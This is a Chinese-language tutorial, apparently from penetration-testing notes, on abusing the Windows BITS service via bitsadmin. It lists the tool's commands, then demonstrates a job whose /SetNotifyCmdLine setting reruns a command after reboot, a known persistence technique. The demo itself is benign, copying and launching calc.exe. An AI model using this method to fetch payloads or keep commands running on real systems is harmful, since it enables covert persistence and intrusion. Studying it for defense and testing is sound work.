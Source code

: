 ```yaml
---
title: "利用BITS"
id: zhfly3525
---
```


## 利用BITS

`BITS` (后台智能传送服务) 是一个 Windows 组件，它可以在前台或后台异步传输文件，为保证其他网络应用程序获得响应而调整传输速度，并在重新启动计算机或重新建立网络连接之后自动恢复文件传输。

`bitsadmin`是一个命令行工具，用于创建下载或上传任务并监视其进度。你可以执行`bitsadmin /?`或`bitsadmin /HELP`获取帮助列表。

常见的`bitsadmin`命令

```
bitsadmin /create [type] DisplayName //创建一个任务
bitsadmin /cancel <Job> //删除一个任务
bitsadmin /list /allusers /verbose //列出所有任务
bitsadmin /AddFile <Job> <RemoteURL> <LocalName> //给任务test添加一个下载文件
bitsadmin /SetNotifyCmdLine <Job> <ProgramName> [ProgramParameters] //设置在任务完成传输时或任务进入状态时将运行的命令行命令。
bitsadmin /Resume <Job> //激活传输队列中的新任务或挂起的任务。
bitsadmin /cancel <Job> //删除某个任务
bitsadmin /reset /allusers //删除所有任务
bitsadmin /complete <Job> //完成某个任务 
```

下面我们来测试一下：

```
bitsadmin /create test
bitsadmin /addfile test c:\windows\system32\calc.exe c:\Users\qiyou\Desktop\calc.exe //为了方便起见我们直接复制本地文件
bitsadmin /SetNotifyCmdLine test cmd.exe "cmd.exe /c calc.exe"
bitsadmin /resume test 
```

效果如下：

![image](../img/796dd4b5d42a118b998c81fc8d2cd7e3.png)

重启电脑之后任务还是存在

![image](../img/5940273798440231291091717a269f63.png)

重启电脑之后任务会再一次被激活，大概几分钟之后我们的命令会再次执行（由于时间太长了就不录制gif了）

![image](../img/29cfbd65d05fba0ff88ec4346f2d5f32.png)

如果我们想让任务完成，可以执行`bitsadmin /complete test`，`calc.exe`也会复制到桌面上

![image](../img/5baa67b10ee76e84d0c763c9a40c13d8.png)